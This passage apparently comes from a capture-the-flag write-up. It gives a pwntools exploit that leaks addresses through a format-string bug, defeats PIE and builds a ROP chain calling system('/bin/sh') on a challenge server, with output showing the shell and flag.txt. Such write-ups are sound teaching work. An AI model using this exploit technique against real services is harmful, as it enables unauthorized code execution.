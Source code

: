 ```python
def get_leak_address(index, name=b"/bin/sh\x00"):
   send_payload("%{}$p".format(index), name)
   p.recvuntil(b"Your message:\n")
   data = p.recvuntil(b"\n")
   return int(data, 16)

print("main (symbols) @", context.binary.symbols["main"])
main_addr = get_leak_address(43) - 128
info(f'main_addr @ {hex(main_addr)}')

elf.address = main_addr - context.binary.symbols["main"]
info(f'PIE base @ {hex(elf.address)}')

# pop_rdi gadget
pop_rdi = elf.address + 0x13b5
info(f'pop_rdi @ {hex(pop_rdi)}')

# ret gadget
ret = elf.address + 0x101a
info(f'ret @ {hex(ret)}')

# system call address
system = elf.plt.system
info(f'system @ {hex(system)}')

# binsh address 
bin_sh = get_leak_address(41)
print("/bin/sh @", hex(bin_sh))

payload = flat({
   padding: [
      ret,
      pop_rdi,
      bin_sh,
      system
   ]
})

send_payload(payload)

p.interactive()
p.close()
```
And when executing the script we get a shell:
```console 
$ python3 exploit.py
[+] Opening connection to chall.polygl0ts.ch on port 9001: Done
main (symbols) @ 4894
[*] main_addr @ 0x55d92859331e
[*] PIE base @ 0x55d928592000
[*] pop_rdi @ 0x55d9285933b5
[*] system @ 0x55d9285930c4
[*] ret @ 0x55d92859301a
/bin/sh @ 0x55d9291e06f0
[*] Switching to interactive mode
Your message:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaac\x1a0Y(\xd9U
$ id
uid=1000(jail) gid=1000(jail) groups=1000(jail)
$ ls
flag.txt
```